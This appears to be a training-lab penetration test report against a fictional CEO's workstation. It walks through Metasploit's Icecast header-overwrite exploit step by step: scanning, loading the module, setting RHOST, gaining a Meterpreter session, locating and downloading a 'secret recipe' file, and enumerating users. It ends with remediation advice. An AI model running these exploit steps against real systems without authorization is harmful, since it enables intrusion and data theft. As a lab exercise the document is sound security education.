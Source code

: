 
# <p style="text-align: center;"> GoodSecurity Penetration Test Report</p>

<p style="text-align: center;">mark@GoodSecurity.com</p>

10th April, 2022



## 1.	High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The goal of this test is to perform attacks similar to those of a hacker and attempt to infiltrate Hans’ computer to determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software, find a secret recipe file on Hans’ computer, and report the findings back to GoodCorp.
The internal penetration test found several alarming vulnerabilities on Hans’ computer: When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting one program with major vulnerabilities. The details of the attack are below.
## 2.	Findings

Machine IP: `192.168.0.20`
Hostname: `MSEDGEWIN10`
Vulnerability Exploited: `Icecast Header Overwrite`
Vulnerability Explanation: `This is "a buffer overflow in the header parsing of Icecast versions 2.0.1 and earlier, discovered by Luigi Auriemma. Sending 32 HTTP headers will cause a write one past the end of a pointer array. On win32 this happens to overwrite the saved instruction pointer, and on linux (depending on compiler, etc) this seems to generally overwrite nothing crucial (read not exploitable). This exploit uses ExitThread(), this will leave icecast thinking the thread is still in use, and the thread counter won't be decremented. This means for each time your payload exits, the counter will be left incremented, and eventually the threadpool limit will be maxed. So you can multihit, but only till you fill the threadpool."` Sorce: https://www.rapid7.com/db/modules/exploit/windows/http/icecast_header/
`As the CEO is running version 2.x of Icecast, his machine is vulnerable to this specific attack.`

Severity:
This vulnerability is a high risk vulnerability because an attacker can easily gain access to a shell prompt (as demonstrated below) and potentially utilise other exploits to escalate user privilege. 


Proof of Concept:

### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20
![nmap](Images/1.Service-and-version-scan.PNG)
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: searchsploit icecast
![searchsploit](Images/2.Searchsploit-Icecast.PNG)
3. Now that we know which exploits are available to us, let's start Metasploit:

   - Run the command that starts Metasploit:

     > Answer: msfconsole

      ![Metasploit](Images/3.Metasploit.PNG)
4. Search for the Icecast module and load it for use.

   - Run the command to search for the Icecast module:

     > Answer: search icecast
![icecast](Images/4.Metasploit-Icecast.PNG)
   - Run the command to use the Icecast module:

     > Answer: use 0
 <br/>![use-0](Images/4.Metasploit-Icecast-use-0.PNG)
5. Set the `RHOST` to the target machine.

   - Run the command that sets the `RHOST`:

     > Answer: set RHOST 192.168.0.20
![set-RHOST](Images/5.Set-RHOST.PNG)
6. Run the Icecast exploit.

   - Run the command that runs the Icecast exploit.

     > Answer: run
![run-exploit](Images/6.Run.PNG)
   - Run the command that performs a search for the `secretfile` textfile on the target.
     > Answer: search -f `*secretfile*`.txt
<br/> ![search-secretfile](Images/6.Search-result.PNG)
7. You should now have a Meterpreter session open.

    - Run the command to performs a search for the `recipe` textfile on the target:
      > Answer: search -f *recipe*.txt
         <br/>![Search-recipe](Images/7.Search-recipe.PNG)
    - **Bonus**: Run the command that exfiltrates the `recipe` textfile:
      > Answer: download "c:\Users\IEUser\Documents\Drinks.recipe.txt"
![download-recipe](Images/7.Download-recipe.PNG)

8. You can also use Meterpreter's local exploit suggester to find possible exploits.
`run post/multi/recon/local_exploit_suggester`

    ![Exploit-suggester](Images/8.Exploit_Suggester.PNG)

  The CEO's computer is also potentially vulnerable to an Ikeext exploit and ms16_075_reflection exploit, with both allowing the attacker to upgrade their user privilege.

### Bonus
  
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: Keeping the existing meterpreter session running (using background), run: search enum_user.
![Search enum_user](Images/Bonus-search-script.PNG)
![Search enum_user-II](Images/Bonus-search-script2.PNG)
run: use 991
![run 991](Images/Bonus-logged-on-users1.PNG)
![run 991-ii](Images/Bonus-logged-on-users2.PNG)


B. Open a Meterpreter shell and gather system information for the target.

  > Answer: 
     <br/>       Computer name:    MSEDGEWIN10
     <br/>       OS:               Windows 10 (10.0 Build 17763)
     <br/>       Architecture:     x64
    <br/>        System Language:  en_US
     <br/>       Domain:           WORKGROUP
     <br/>       Logged On Users:  1
     <br/>       Metrepreter:      x86/windows

C. Run the command that displays the target's computer system information:

   > Answer: `sysinfo`
 <br/>  ![Sys info](Images/Bonus-sysinfo.PNG)


3.	Recommendations

What recommendations would you give to GoodCorp?

 For urgent action:
  1. Uninstall Icecast from the CEO's computer. Whilst upgrading to the latest version should mitigate the vulnerability, the application is not an approved application for use on company computers, thus it should be removed.
  2. Run a session with the senior executive management team to ensure that they all understand the importance of abiding by the company's IT policy framework and the potential for exposure by installing applications not approved by the IT department.
  3. Patch the CEO's computer to remove the Ikeext and ms16_075_reflection vulnerabilities.

Strongly recommended actions:
  1. Run a training program for all employees on IT security issues and how to ensure that they reduce the chances of being successfully hacked.
  2. Implement a policy to prevent all employees from having the ability to install applications on their work computers.
  3. Expand the scope of the pentesting engagement to include all senior management.

